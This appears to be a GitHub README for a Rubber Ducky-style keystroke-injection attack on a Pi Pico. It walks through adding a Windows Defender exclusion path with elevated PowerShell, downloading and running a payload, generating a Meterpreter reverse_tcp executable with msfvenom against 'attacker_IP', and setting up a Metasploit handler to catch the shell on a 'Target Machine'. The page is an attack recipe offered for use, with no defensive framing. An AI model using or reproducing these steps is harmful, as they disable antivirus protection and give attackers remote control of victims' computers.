 Windows Defender ExclusionPath + ReverseShell
=============================================

This scrip will run PowerShell as administrator privilege and add directory of current User into Microsoft Windows Defender Exclusion. Then PowerShell will download payload file and run the payload. Last, exit the PowerShell.

1. Create payload using msfvenom in kali linux:
> $ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=attacker_IP lport=port -f exe -o windowsx64.exe
  
2. Upload your payload
  
3. Run Metasploit on Kali Linux:
> $ msfconsole <br />
> $ use exploit/multi/handler <br />
> $ set payload windows/x64/meterpreter/reverse_tcp <br />
> $ set LHOST attacker_IP <br />
> $ set LPORT port <br />
> $ run
  
4. Copy payload.dd script to Pi Pico.
  
5. Open payload.dd, edit URL and save.
  
5. Connect RubberDucky to Target Machine.
  
P/S : Tested on Windows 11 Version 21H1(OS Build 22000.348)
  
![Win Ver](https://github.com/auffAzani/RubberDucky/blob/main/%5BWin11%5D%20Windows%20Defender%20ExclusionPath%20%2B%20ReverseShell/WinVer.png)
